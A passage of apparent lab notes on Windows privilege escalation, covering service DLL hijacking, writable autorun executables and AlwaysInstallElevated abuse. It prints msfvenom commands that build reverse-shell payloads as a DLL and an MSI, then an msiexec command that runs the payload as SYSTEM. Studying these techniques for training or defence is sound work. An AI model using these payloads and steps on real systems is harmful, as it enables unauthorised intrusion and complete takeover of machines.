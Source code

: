 ```
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DLL Hijack Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
- In this we have to manually analysis the file `dllhijackservice.exe` by copy to our machine with admin right.
- With the use of tool  `Procmon64` 
- In our analysis `dllhijackservice.exe` program try to find `hijackme.dll` dll library at various path that we can view after running the program by `net start dllsvc` command.
- In our finding we can see that we have the writable permission `C:\Temp` location and also the Vulnerable program look for the dll file into the same directory.
- In this vulnerable machine `hijackme.dll` file is not persent. So we can take advantage of this situation and create a reverse shell with the same name as dll file.
    * `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.11.201 LPORT=6666 --platform windows -f dll -o hijackme.dll`
- And start the program. So we can get the reverse shell with system privilege.

## Registry
- Here we make use of Registry to find out info and we'll try to exploit!
- We're juect checking the features which we can abuse

### Autoruns:
- Autoruns is a feature in Windows to start few services or application during startup, for example "greenshot"
- We can check them manually by running `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` - this will display autorun programs and their paths.
- The output is,
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```
- We got 2 programs with path so lets test.
- Now we'll run **accesscheck** to check what permissions are available to the file-path of these autoruns
- Simply run `accesschk.exe \accepteula -wvu "<path>"`, i ran that for **My Program** autorun's path and the output statted `FILE_ALL_ACCESS`, so we can literally do anything in this folder. Mainly we can replace the original executable and restart the system and we can get the shell.
- No we need to wait till the admin login and we'll get the shell as privileges user!
- The catch here is that we need to wait till admin/owner logins or else we're good to go!

### AlwaysInstallElevated
- It allows standard user to install **msi**(Microsoft Installer) with adminsitrative privileges.
- This is cool and easy to obtain higher privileges,
- We can check thet by running,
`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
` and
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
`
- Run both these commands and the value for **AlwaysInstallElevated** must be 1 or 0x1. So that we can confirm and proceed along.
- Now create a reverse-shell of format **msi** for reference check the below command,
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.39.50 LPORT=4444 --platform windows -f msi > reverse.msi`
- Now transfer that to windows machine and run the command,
`msiexec /quiet /qn /i reverse.msi`
- Hurray! we got the shell as `nt authority\system`
